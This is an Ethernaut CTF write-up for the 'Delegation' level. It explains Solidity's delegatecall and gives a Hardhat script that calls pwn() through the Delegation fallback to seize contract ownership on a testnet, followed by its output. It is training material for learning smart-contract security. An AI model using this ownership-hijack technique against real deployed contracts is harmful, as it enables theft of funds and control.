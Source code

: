 ```yaml
---
title: Ethernaut \#06 Delegation
tags: [ethernaut]
style: border
color: primary
description: Ethernaut Delegation challenge writeup
---
```


## Delegation

### Challenge

The goal of this level is for you to claim ownership of the instance you are given.

  Things that might help

* Look into Solidity's documentation on the `delegatecall` low level function, how it works, how it can be used to delegate operations to on-chain libraries, and what implications it has on execution scope.
* Fallback methods
* Method ids


```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Delegate {

  address public owner;

  constructor(address _owner) public {
    owner = _owner;
  }

  function pwn() public {
    owner = msg.sender;
  }
}

contract Delegation {

  address public owner;
  Delegate delegate;

  constructor(address _delegateAddress) public {
    delegate = Delegate(_delegateAddress);
    owner = msg.sender;
  }

  fallback() external {
    (bool result,) = address(delegate).delegatecall(msg.data);
    if (result) {
      this;
    }
  }
}
```

### Background

The low level instruction `delegatecall` will execute the code in some other contract under the context of the current contract. This means the the code being called is executed but with the storage, `msg.value`, `msg.sender` etc of the caller contract. This can be used to implement libraries and and proxy contracts used for upgradeability.

### Attack

The attack is simple, we can call the `Delegation` contract address using the ABI of the `Delegate` contract. Is this case, the `fallback` function of the `Delegation` contract will be called and delegate the execution to the `Delegate` contract. Then we simply need to call the `pwn` function which will update the first slot in the caller function to the `msg.sender`, which in this case is the attacker.

* Get instance of `Delegate` contract ABI with `Delegation` contract address
* Call `pwn` function

#### token-solve.js

```javascript
const hre = require("hardhat");
const { ethers, upgrades } = require("hardhat");

async function main() {
    delegationAddress = "0x65fE1306C4fFF667D9f0A75dc4226289Ec1e62e3";
    contract = await ethers.getContractAt("Delegate", delegationAddress);

    const accounts = await hre.ethers.getSigners();
    account = accounts[0];

    console.log("Level address   : " + contract.address)
    console.log("Contract Owner  : " + await contract.owner())

    // call delegate contract function
    tx = await contract.connect(account).pwn()
    receipt = await tx.wait()

    console.log("Contract Owner  : " + await contract.owner())
    
}

main().catch((error) => {
    console.error(error);
    process.exitCode = 1;
});
```

```bash
$ npx hardhat run scripts/delegation-solve.js --network rinkeby
Level address   : 0x65fE1306C4fFF667D9f0A75dc4226289Ec1e62e3
Contract Owner  : 0x9451961b7Aea1Df57bc20CC68D72f662241b5493
Contract Owner  : 0x11bAe9eA1851939a485f1F00b7B0Eec099e9276d
```

### Success Message

Usage of `delegatecall` is particularly risky and has been used as an attack vector on multiple historic hacks. With it, your contract is practically saying "here, -other contract- or -other library-, do whatever you want with my state". Delegates have complete access to your contract's state. The `delegatecall` function is a powerful feature, but a dangerous one, and must be used with extreme care.

Please refer to the [The Parity Wallet Hack Explained](https://blog.openzeppelin.com/on-the-parity-wallet-multisig-hack-405a8c12e8f7) article for an accurate explanation of how this idea was used to steal 30M USD.
